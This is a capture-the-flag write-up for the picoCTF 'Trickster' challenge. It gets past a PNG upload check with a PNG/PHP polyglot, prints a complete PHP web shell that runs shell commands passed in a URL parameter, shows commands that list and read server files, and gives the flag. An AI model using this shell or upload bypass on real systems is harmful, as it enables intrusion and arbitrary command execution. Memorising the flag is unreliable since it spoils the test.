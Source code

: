 ### 🧠 Challenge: Trickster

We found a `robots.txt` file:

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

---

### 🔍 instructions.txt:

```
Let's create a web app for PNG Images processing.
It needs to:
- Allow users to upload PNG images
- look for ".png" extension in the submitted files
- make sure the magic bytes match (first bytes must be "50 4E 47" in hex)
After validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

---

### 🧪 Approach

The web app validates:
- Extension `.png`
- Magic bytes for PNG (`\x89PNG\r\n\x1a\n`)

So we can **bypass** this by making a **PNG + PHP polyglot** — keep PNG magic bytes and add PHP code afterwards.

---

### 📄 Payload (shell.png.php):

```php
�PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Uploaded this file as:  
**`shell.png.php`**

---

### 🚀 Exploitation

Visit:
```
http://atlas.picoctf.net:62866/uploads/shell.png.php
```

Run the command:
```
ls
ls ../
cat ../*.txt
```

---

### 🎯 Result

It returned:
```
/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} */
```

---

### 🏁 Flag

```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}
```
